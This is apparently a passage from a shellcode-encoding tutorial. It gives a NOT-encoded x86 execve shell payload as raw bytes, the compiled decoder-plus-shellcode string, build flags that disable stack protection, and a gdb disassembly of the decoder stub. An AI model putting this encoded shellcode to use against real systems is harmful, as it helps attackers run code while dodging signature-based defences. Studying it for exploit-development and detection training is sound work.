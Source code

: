 ```asm
        EncodedShellcode: db 0xce,0x3f,0xaf,0x97,0xd0,0xd0,0x8c,0x97,0x97,0xd0,0x9d,0x96,0x91,0x76,0x1c,0xaf,0x76,0x1d,0xac,0x76,0x1e,0x4f,0xf4,0x32,0x7f
```

Let's compile it and get shellcode

```
shellcode-dump.sh not-encoder
"\xeb\x0c\x5e\x31\xc9\xb1\x19\xf6\x16\x46\xe2\xfb\xeb\x05\xe8\xef\xff\xff\xff\xce\x3f\xaf\x97\xd0\xd0\x8c\x97\x97\xd0\x9d\x96\x91\x76\x1c\xaf\x76\x1d\xac\x76\x1e\x4f\xf4\x32\x7f"
```

Let's paste it in `shellcode.c` and compile it

```
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

```
$ ./shellcode 
Shellcode Length:  44
$ 
$ 
$ 
```

there we go. Let's quickly use gdb to analyze this shellcode

```
gdb -q ./shellcode
```

```
(gdb) set disassembly-flavor intel
(gdb) print/x &code
$1 = 0x804a040
(gdb) break *0x804a040
```

```
(gdb) r
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0804a040 <+0>:	jmp    0x804a04e <code+14>
   0x0804a042 <+2>:	pop    esi
   0x0804a043 <+3>:	xor    ecx,ecx
   0x0804a045 <+5>:	mov    cl,0x19
   0x0804a047 <+7>:	not    BYTE PTR [esi]
   0x0804a049 <+9>:	inc    esi
   0x0804a04a <+10>:	loop   0x804a047 <code+7>
   0x0804a04c <+12>:	jmp    0x804a053 <code+19>
   0x0804a04e <+14>:	call   0x804a042 <code+2>
   0x0804a053 <+19>:	into   
   0x0804a054 <+20>:	aas    
   0x0804a055 <+21>:	scas   eax,DWORD PTR es:[edi]
   0x0804a056 <+22>:	xchg   edi,eax
   0x0804a057 <+23>:	rcl    al,1
   0x0804a059 <+25>:	mov    WORD PTR [edi-0x69622f69],ss
   0x0804a05f <+31>:	xchg   ecx,eax
   0x0804a060 <+32>:	jbe    0x804a07e
   0x0804a062 <+34>:	scas   eax,DWORD PTR es:[edi]
   0x0804a063 <+35>:	jbe    0x804a082
   0x0804a065 <+37>:	lods   al,BYTE PTR ds:[esi]
   0x0804a066 <+38>:	jbe    0x804a086
   0x0804a068 <+40>:	dec    edi
   0x0804a069 <+41>:	hlt    
   0x0804a06a <+42>:	xor    bh,BYTE PTR [edi+0x0]
End of assembler dump.
```
